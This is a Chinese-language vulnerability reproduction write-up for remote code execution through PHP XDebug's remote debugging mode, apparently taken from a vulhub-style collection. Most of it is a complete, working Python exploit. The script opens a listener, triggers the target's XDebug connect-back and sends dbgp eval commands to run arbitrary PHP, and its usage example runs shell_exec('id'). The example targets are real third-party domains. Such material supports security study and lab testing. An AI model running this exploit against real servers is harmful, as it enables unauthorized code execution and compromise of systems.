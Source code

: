 # Php XDebug 远程调试漏洞

## 一、漏洞简介

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置`remote_connect_back = 1`：

```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1

```

这个配置下，我们访问`http://www.baidu,com/index.php?XDEBUG_SESSION_START=phpstorm`，目标服务器的XDebug将会连接访问者的IP（或`X-Forwarded-For`头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

## 二、漏洞影响

## 三、复现过程

因为需要使用dbgp协议与目标服务器通信，所以无法用http协议复现漏洞。

我编写了一个漏洞复现脚本，指定目标web地址、待执行的php代码即可：

```
# 要求用python3并安装requests库
python3 exp.py -t http://www.baidu.org:8080/index.php -c 'shell_exec('id');'

```

```python
#!/usr/bin/env python3
import re
import sys
import time
import requests
import argparse
import socket
import base64
import binascii
from concurrent.futures import ThreadPoolExecutor

pool = ThreadPoolExecutor(1)
session = requests.session()
session.headers = {
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}

def recv_xml(sock):
    blocks = []
    data = b''
    while True:
        try:
            data = data + sock.recv(1024)
        except socket.error as e:
            break
        if not data:
            break

        while data:
            eop = data.find(b'\x00')
            if eop < 0:
                break
            blocks.append(data[:eop])
            data = data[eop+1:]

        if len(blocks) >= 4:
            break

    return blocks[3]

def trigger(url):
    time.sleep(2)
    try:
        session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
    except:
        pass

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
    parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
    parser.add_argument('-t', '--target', required=True, help='target url.')
    parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
    args = parser.parse_args()

    ip_port = ('0.0.0.0', args.listen)
    sk = socket.socket()
    sk.settimeout(10)
    sk.bind(ip_port)
    sk.listen(5)

    pool.submit(trigger, args.target)
    conn, addr = sk.accept()
    conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

    data = recv_xml(conn)
    print('[+] Recieve data: ' + data.decode())
    g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
    if not g:
        print('[-] No result...')
        sys.exit(0)

    data = g.group(1)

    try:
        print('[+] Result: ' + base64.b64decode(data).decode())
    except binascii.Error:
        print('[-] May be not string result...')

```

![1 1.png](images/2020_06_13/0f78b0b904e94cf8a52740325a77804d.png)

**重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

## 参考链接

> https://vulhub.org/#/environments/php/xdebug-rce/

